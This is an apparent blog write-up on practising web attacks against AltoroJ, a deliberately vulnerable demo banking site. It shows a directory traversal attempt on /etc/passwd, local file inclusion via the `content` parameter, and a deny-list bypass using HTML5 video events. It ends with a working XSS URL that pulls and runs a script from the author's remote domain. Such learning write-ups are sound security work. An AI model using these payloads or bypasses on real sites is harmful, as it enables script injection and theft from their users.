 # AltoroJ - Reflected XSS in Error Messages via `Content` Parameter
Jonathan Gregson, 11 September 2020

## Brief
I wanted to practice finding XSS vulnerabilities on web apps and searched for a vulnerable app online. I found the [AltoroJ](https://github.com/hclproducts/AltoroJ) project, but not before finding a hosted version on [demo.testfire.net](http://demo.testfire.net/). This writeup will be about my findings there.

## Discovery
As with every website I visit, my first instinct was to type `test<` into the search bar and see if the angle bracket was left unescaped. As expected, `<` was converted to `&lt;` in the output. Nothing can be that easy anymore.

I quickly got bored of the search bar as nothing was jumping out at me as unusual or dangerous. What did jump out though was that some of the links on the page were to `index.jsp` with HTM pages in the `content` parameter, like `index.jsp?content=inside_contact.htm`. This seemed like something that could be vulnerable to local file inclusion or directory traversal.

I replaced `inside_contact.htm` with `../../../../../../../../../../etc/passwd` in a final attempt at instant gratification, but unfortunately, the application returned a 500 internal server error, referencing a null pointer exception:

![HTTP Status 500 - Internal Server Error](images/http-status-500-internal-server-error.png)

Actually that all sounded very bad. I tried including the non-existent page `rnrgudvdhg.htm` and was given a much more helpful error message of `Failed due to The requested resource (/static/rnrgudvdhg.htm) is not available`. So whatever was passed in the `content` parameter the web app would look for in `static/`. We couldn't traverse back to the root of the file system yet, but could we traverse back out of `static` and include files from the root of the web app?

![http://demo.testfire.net/index.jsp?content=../login.jsp](images/index-jsp-include-login-jsp.png)

Looks like we could. We could even get recursive and have `index.jsp` include itself:

![http://demo.testfire.net/index.jsp?content=../index.jsp](images/index-jsp-include-index-jsp.png)

This is definitely vulnerable to LFI, but I'm still craving for XSS. I'll come back to the FLI/traversal aspect of this parameter another time. Focusing on XSS again, I thought the error message from earlier looked interesting. It was like it was returning part of an exception to me without filtering it. I checked if I could include an angle bracket:

![http://demo.testfire.net/index.jsp?content=nothing<here](images/content-nothing-here.png)

It worked! This told me that the application was taking my input and attempting to access system resources without validating it, and then returning exceptions to me, again without validating them. There was so much going on here, but again, back to XSS.

## Exploitation
A user's ability to get angle brackets into the DOM almost guarantees there is an XSS vulnerability or five somewhere. There are just too many things you can abuse in the DOM. I knew I could open HTML tags, so I tried to close one as well, but the output kept coming back sanitized. Some combinations of angle brackets seemed to be sanitized and some did not. Anyway, I decided to focus on the classic `<img src=x onerror=alert(1) foo="` trick and hope the `<img>` tag closed safely somewhere and executed the payload. But what I got back was odd:

![?content=<img%20src=x%20onerror=alert(1)%20foo=" => Failed due to](failed-due-to.png)

`Failed due to `? It was like an error was still occurring, but the exception output was being filtered, or there was none at all. I was getting this same result whenever I tried `onload=`, or `onerror=`, but not `onloa=`. In fact, every event handler I tried caused this, as well as style attributes and a few other things.

I thought there must be something in place which is filtering my input after all, and blocking it if it detects certain known dangerous inputs. I was still able to include image tags and even display remote images, I just couldn't bind any event listeners to them in the HTML tag. It was frustrating - I knew I was so close. But I also knew that filtering input and output by looking for matches on a deny list is a terrible security approach, because developers inevitably miss something. As a developer, I can attest to this.

I noted that the site felt "old" overall, and thought that this filter might not be up to date on newer DOM events like touch events. I dropped in `ontouchstart=alert(1` and, with a litter user interaction, it worked!

![?content=%3Cimg%20src=%22//jdgregson.com/cat.png%22%20ontouchstart=alert(1](touch-start-xss.gif)

But this wasn't nearly good enough to feed by hunger for XSS. Not only did this require the XSS victim to be using a touch-based device, it also required the user to touch the image, and the site to place the image in a large, touchable spot. I needed payload that would trigger when the URL was loaded without any further interaction from the user.

I went back to trying to bypass this XSS filter. I tried using null bytes before, in the middle or, or end of the `onload=` attribute, but it always either broke the attribute or was blocked. I found that many or all HTML5 event attributes were not blocked, but most of them don't allow for execution on load, or don't apply to the tags I was using.

Many of the newer HTML5 events could be caused to fire on load, such as media events like `loadstart`, `loadeddata`, and `loadend`. But unfortunately, none of these events are fired by classic HTML tags like `<img>`. To make matters worse, the tags that will fire them are actually supposed to be used as a nested set of tags like:

    <video onloadstart="alert(1)">
        <source src="video.mp4">
    </video>

I wasn't able to get nearly half of that into a payload before the filter would block it. But I was determined to find a way to use the newer HTML5 tags since I wasn't able to get past the filter in any other meaningful way. Out of desperation, I sent nothing but a `<video>` tag for the parameter and to my amazement, not only did this make it past the filter, but the browser restructured the HTML output so that I had a closing `</video>` tag with spec-compliant text in between:

![?content=<video>](images/video-tag.png)

Why hadn't I tried this an hour before? It would have saved so much time. I tried again with `<video><source>` and the browser properly closed both tags. This was perfect! I added some new, unfiltered HTML5 event attributes and tested the payload:

![?content=%3Cvideo%20onloadedmetadata=%22alert(1)%22%3E%3Csource%20src=%22//jdgregson.com/vid.mp4%22%3E](images/video-onloadedmetadata-xss.png)

It worked! After a few hours of trial and error, I finally had a one-click reflected XSS payload:

    http://demo.testfire.net/index.jsp?content=%3Cvideo%20onloadedmetadata=%22alert(1)%22%3E%3Csource%20src=%22//jdgregson.com/vid.mp4%22%3E

Taking things a step further, I updated the payload to download a JavaScript file from an attacker-controlled website and add it to the DOM:

    http://demo.testfire.net/index.jsp?content=%3Cvideo%20onloadedmetadata=%22s=document.createElement('script');s.src='//jdgregson.com/xss.js';document.body.appendChild(s)%22%3E%3Csource%20src=%22//jdgregson.com/vid.mp4%22%3E

![Remote XSS payload](images/remote-xss-payload.png)

At long last I had my fill of vulns for the evening.
